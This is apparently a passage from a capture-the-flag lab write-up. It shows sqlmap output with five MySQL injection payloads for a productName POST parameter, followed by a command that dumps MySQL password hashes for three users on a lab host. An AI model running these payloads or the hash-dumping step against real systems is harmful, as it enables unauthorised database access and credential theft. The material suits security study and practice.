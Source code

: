 ```shell
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-4659' OR 1554=1554#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=singlequote' AND (SELECT 6059 FROM(SELECT COUNT(*),CONCAT(0x716a767071,(SELECT (ELT(6059=6059,1))),0x71627a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- AQqk

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=singlequote';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=singlequote' AND (SELECT 9910 FROM (SELECT(SLEEP(5)))MSMm)-- ZxSn

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=singlequote' UNION ALL SELECT NULL,NULL,CONCAT(0x716a767071,0x514e62776f6a7857665279767352596548547264775877554474616670484969466b4f724f575572,0x71627a6a71),NULL,NULL,NULL#
---
[18:47:44] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:47:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

[*] ending @ 18:47:44 /2020-08-22/
```

After that, run the following command to retrieve password hashes for MySQL.<br>
We can achieve 3 hashes for `hector`, `manager` and `root`.
```shell
root@kali:~# sqlmap -r request.txt --password

---

database management system users password hashes:
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8

[18:50:54] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

[*] ending @ 18:50:54 /2020-08-22/
```
